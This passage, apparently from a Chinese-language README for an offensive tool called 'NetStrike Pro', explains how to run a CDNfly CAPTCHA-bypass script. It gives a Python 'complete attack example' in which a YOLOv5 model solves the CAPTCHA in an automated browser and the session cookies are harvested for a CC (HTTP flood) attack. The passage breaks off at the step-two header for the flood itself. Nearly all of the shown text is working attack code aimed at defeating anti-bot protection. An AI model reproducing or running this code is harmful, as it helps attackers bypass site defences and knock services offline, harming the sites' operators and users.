 ```bash
cd NetStrike-Pro/legacy/cdnfly_bypass/困难文字点选

# 编辑 click.py，修改目标 URL
nano click.py
# 将第 102 行的 '/click' 改为实际目标

# 运行
python3 click.py
```

**输出示例**:
```
✅ 检测到 8 个字块
D1 匹配结果: b0-0.8523 | b1-0.7234 | b2-0.6891 ...
D2 匹配结果: b0-0.6123 | b1-0.9234 | b2-0.7456 ...
D3 匹配结果: b0-0.5678 | b1-0.6789 | b2-0.9123 ...
✅ 点击点绘制完成，保存为：captcha_results/click_points_result.png
```

---

## 🎯 集成到攻击流程

### 完整攻击示例

```python
#!/usr/bin/env python3
"""
NetStrike Pro - CDNfly 绕过 + CC 攻击示例
"""

import time
import requests
from cdnfly_bypass.计算.code import fetch_and_detect

# === 步骤 1: 绕过验证码 ===
print("[1] 绕过 CDNfly 验证码...")

# 初始化浏览器
from DrissionPage import Chromium
import torch

model = torch.hub.load('yolov5', 'custom', path='best.pt', source='local')
chrom = Chromium()
tab = chrom.new_tab()

# 访问目标
tab.get('http://target-with-cdnfly.com')
time.sleep(2)

# 识别验证码
expr, result = fetch_and_detect(tab, model, model.names)
print(f"  ✅ 验证码识别: {expr} = {result}")

# 填入答案
tab.ele('#captcha-input').input(str(result))
tab.ele('#submit-btn').click()
time.sleep(1)

# 获取 Cookie
cookies = tab.cookies()
print(f"  ✅ 获取 Cookie: {cookies}")

# === 步骤 2: 使用 Cookie 进行 CC 攻击 ===
```